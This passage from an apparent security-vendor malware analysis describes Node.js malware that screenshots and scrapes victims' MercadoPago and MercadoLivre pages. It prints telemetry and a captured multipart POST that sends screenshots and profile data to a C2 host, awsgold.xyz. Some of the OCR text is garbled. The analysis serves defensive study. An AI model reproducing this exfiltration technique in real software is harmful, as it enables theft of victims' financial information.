 | uid: uid.uid, |
| value: mcredito available |

As can be seen in the script, in each of the cases, whether its MercadoLivre or MercadoPago associated pages, the script will use the aforementioned function printReport() to create an image of the targeted webpage and eventually send the extracted data to the C2 server. The creation of these images can be seen using the Cybereason Defense Platform:

|  |  |  | FIGURE 39 |
| --- | --- | --- | --- |
| Grouped by |  |  |  |
| Element name |  | 0 / 0 · Event type |  |
| { node.exe c:\users\ | appdata\roaming\microsoft\media\oz\mercado_pago.png | 42 | FET_DELETE x21, FET_CREATE x21 |
| g node.exe c:\users\ | appdata\roaming\microsoft\media\oz\mercado_credito.png | 42 | FET_DELETE x21, FET_CREATE x21 |

After creating the screenshot, the information will be sent to the C2 server using the Multi-Purpose Internet Mail Extensions (MIME) protocol - an extension to the Internet email protocol that allows users to exchange different kinds of data files such as images, audio, and video. Note, in latest versions of index.js the entire communication of the node.exe process is encrypted:

| FIGURE 40 |
| --- |
| The Node.js malware sending a packet of information to the C2 server |
| POST /log/index.php HTTP/1.1. host: awsgold.xyz. . content-type: |
| multipart/form-data; |
| boundary= ------ 809116689282256122271874. . content-l |
| ength: 468178. Connection: |
| --- 809116689282256122271874. . Content close |
| -Disposition: form-data; |
| name="uid" . . . B855E7B6 -- 8091166 |
| 89282256122271874 . Content-Disposition: form-data; |
| name="log" ... MercadoPago |
| ----- 809116689282256122271874. . Content-D Print .. - |
| isposition: form-data; name="attachment"; |
| filename="print mercado pago debug.png". Content-Type: image/png |

![](_page_22_Picture_8.jpeg)

Eventually, when the data scraped from the website has been collected, the script sends it as a json file and uploads it to the remote C2 server. In the end, the attacker will have information on the victim pulled from their profile, including their cash balance:
